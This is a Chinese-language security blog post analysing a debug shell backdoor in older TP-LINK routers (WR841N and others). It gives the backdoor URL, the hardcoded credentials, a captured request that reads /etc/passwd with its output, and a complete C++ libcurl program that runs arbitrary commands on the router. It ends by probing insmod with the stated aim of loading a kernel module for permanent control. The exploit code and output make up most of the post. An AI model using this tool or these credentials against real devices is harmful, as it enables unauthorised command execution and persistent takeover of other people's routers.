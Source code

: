 ```yaml
---
layout: post
title:  "TP-LINK Shell调试后门浅析"
date:   2017-12-06
categories: tp-link
permalink: /archivers/2017-12-06/1
description: "本篇文章介绍一个TP-LINK低版本的一个Shell调试后门"
---
```

本篇文章介绍一个TP-LINK低版本的一个调试后门
<!--more-->
## 0x00 前言

TPLINK 存在一个 Shell 调试后门，TPLINK WR941N V2_090803 路由器 后门，TP-link路由器后门漏洞。

影响版本：

WR740N, WR740ND, WR743ND, WR842ND, WA-901ND, WR941N, WR941ND, WR1043ND, WR2543ND, MR3220, MR3020, WR841N

## 0x01 分析

该后门的地址在：`/userRpmNatDebugRpm26525557/linux_cmdline.html`

在公司刚好有一台，它的版本是：`TL-WR841N`。


![0x00](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x00.png)


参考网上文章获得了用户名和密码：`osteam/5up`

![0x01](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x01.png)

那么它是怎么执行命令的呢？会不会存在越权情况？PS:后来发现它必须要登录路由器才可以访问到这个Shell接口


通过抓包发现，它会将命令发送到另外一个页面：


![0x02](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x02.png)


并且命令结果都在JS代码块中。

```
GET /userRpm/DebugResultRpm.htm?cmd=cat%20/etc/passwd&usr=osteam&passwd=5up HTTP/1.1
Host: 192.168.3.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.3.1/userRpmNatDebugRpm26525557/linux_cmdline.html
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1

----------------------------------


HTTP/1.1 200 OK
Server: TP-LINK Router
Connection: close
Content-Type: text/html
WWW-Authenticate: Basic realm="TP-LINK Wireless N Router WR841N"

<SCRIPT language="javascript" type="text/javascript">
var cmdResult = new Array(
"cat /etc/passwd&\r\n811\r\n# root:x:0:0:root:/root:/bin/sh\r\nAdmin:x:0:0:root:/root:/bin/sh\r\nbin:x:1:1:bin:/bin:/bin/sh\r\ndaemon:x:2:2:daemon:/usr/sbin:/bin/sh\r\nadm:x:3:4:adm:/adm:/bin/sh\r\nlp:x:4:7:lp:/var/spool/lpd:/bin/sh\r\nsync:x:5:0:sync:/bin:/bin/sync\r\nshutdown:x:6:11:shutdown:/sbin:/sbin/shutdown\r\nhalt:x:7:0:halt:/sbin:/sbin/halt\r\nuucp:x:10:14:uucp:/var/spool/uucp:/bin/sh\r\noperator:x:11:0:Operator:/var:/bin/sh\r\nnobody:x:65534:65534:nobody:/home:/bin/sh\r\nap71:x:500:0:Linux User,,,:/root:/bin/sh\r\n\r\n",
0,0 );
</SCRIPT>
<META http-equiv=Content-Type content="text/html; charset=gb2312">
<HTML>
<HEAD><TITLE>TL-WR841N</TITLE>
<META http-equiv=Pragma content=no-cache>
<META http-equiv=Expires content="wed, 26 Feb 1997 08:21:57 GMT">
<LINK href="/dynaform/css_main.css" rel=stylesheet type="text/css">
<SCRIPT language="javascript" src="/dynaform/common.js" type="text/javascript"></SCRIPT>
<SCRIPT language="javascript" type="text/javascript"><!--
//--></SCRIPT>
<script language="Javascript">
function doGetResult()
{
	location.href="/userRpm/DebugResultRpm.htm";
}
</script>
</head>
<body>
</body>
</html>
<script language="JavaScript">
	var	timeInterVal = 2000;
	obj = parent.document.getElementById("result");
	var temp = obj.scrollTop;
	obj.value += cmdResult[0];
	obj.scrollTop = temp;
	if(parent.bIsonFocus == 0)
		obj.scrollTop = obj.scrollHeight;
	setTimeout("doGetResult()",timeInterVal);
</script>
```

其中：`Authorization: Basic YWRtaW46YWRtaW4=`就是路由器的权限认证方式了，并且调试接口的用户名密码是以GET方式传输的


## 0x02 动起手来

我使用C++写了一个测试的程序，主要是还原它发送的数据。

```cpp
#include <iostream>
#include <curl/curl.h>
#include <regex>
#include <string>
#define TIMEOUT 5

std::string m_replace(std::string strSrc,const std::string &oldStr, const std::string &newStr,int count=-1)
{
    std::string strRet=strSrc;
    size_t pos = 0;
    int l_count=0;
    if(-1 == count)
        count = strRet.size();
    while ((pos = strRet.find(oldStr, pos)) != std::string::npos)
    {
        strRet.replace(pos, oldStr.size(), newStr);
        if(++l_count >= count) break;
        pos += newStr.size();
    }
    return strRet;
}

size_t WriteData(void *pData, size_t size, size_t nmemb, void *stream)
{
    std::string *pStr = (std::string *)stream;

    size_t len  = size * nmemb;
    pStr->append((const char *)pData, len);

    return len;

}

int main(int argc,char * argv[]) {
    if(argc < 5){
        std::cout << "Usage: " << argv[0] << " <HOST> <Username> <Password> <Command>"<<std::endl;
        std::cout << "Version: WR740N, WR740ND, WR743ND, WR842ND, WA-901ND, WR941N, WR941ND, WR1043ND, WR2543ND, MR3220, MR3020, WR841N"<<std::endl;
        exit(EXIT_SUCCESS);
    }

    std::string host = argv[1];
    std::string username = argv[2];
    std::string password = argv[3];
    std::string command = argv[4];
    std::string body;
    std::string commands = curl_escape(command.data(),command.size());
    host="http://"+host+"/userRpm/DebugResultRpm.htm?cmd="+commands+"&usr=osteam&passwd=5up";

    CURL * curl = curl_easy_init();
    curl_easy_setopt(curl,CURLOPT_URL,host.c_str());
    curl_easy_setopt(curl,CURLOPT_TIMEOUT,TIMEOUT);
    curl_easy_setopt(curl,CURLOPT_USERNAME,username.c_str());
    curl_easy_setopt(curl,CURLOPT_PASSWORD,password.c_str());
    curl_easy_setopt(curl,CURLOPT_WRITEFUNCTION,WriteData);
    curl_easy_setopt(curl,CURLOPT_WRITEDATA,body);
    CURLcode res = curl_easy_perform(curl);
    if(res !=0){
        std::cout << "ERROR" << std::endl;
        curl_easy_cleanup(curl);
        exit(EXIT_SUCCESS);
    }
    int status = 0;
    curl_easy_getinfo(curl,CURLINFO_RESPONSE_CODE,&status);
    if(status != 200 || status == 401){
        std::cout << "ERROR Incorrect username or password." << std::endl;
        exit(EXIT_SUCCESS);
    }
    //std::cout << body << std::endl;
    std::regex match_command_result("\\(\\n.*\\n0,0 \\)");
    std::smatch mth;
    std::regex_search(body,mth,match_command_result);
    std::cout << m_replace(mth.str(),"\\r\\n","\n") << std::endl;
    curl_easy_cleanup(curl);
    return 0;
}

```

编译：`g++ main.cpp -lcurl -o tplinkShell`

使用过程：

![0x03](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x03.png)

:-) 正则写的不好，莫见怪

## 0x03 测试写入文件 - 编写内核模块

![0x04](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x04.png)

发现Web目录是不可写、不可读的。

参考：`https://www.cnblogs.com/amaoxiaozhu/archive/2013/03/08/2950002.html`

可以进行编写mod，使内核加载

![0x05](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x05.png)


传送门：https://www.cnblogs.com/skyred99/p/5683710.html


这块先放着，后面如过理解了再尝试导入内核模块，永久控制路由器

```bash
payloads@koone:~$ ./tplinkShell 192.168.3.1 admin admin "/sbin/insmod"
(
"/sbin/insmod
BusyBox v1.01 (2009.01.06-01:38+0000) multi-call binary

Usage: insmod [OPTION]... MODULE [symbol=value]...

Loads the specified kernel modules into the kernel.

Options:
	-f	Force module to load into the wrong kernel version.
	-k	Make module autoclean-able.
	-v	verbose output
	-q	quiet output
	-L	Lock to prevent simultaneous loads of a module
	-o NAME	Set internal module name to NAME
	-x	do not export externs
```

insmod用于加载模块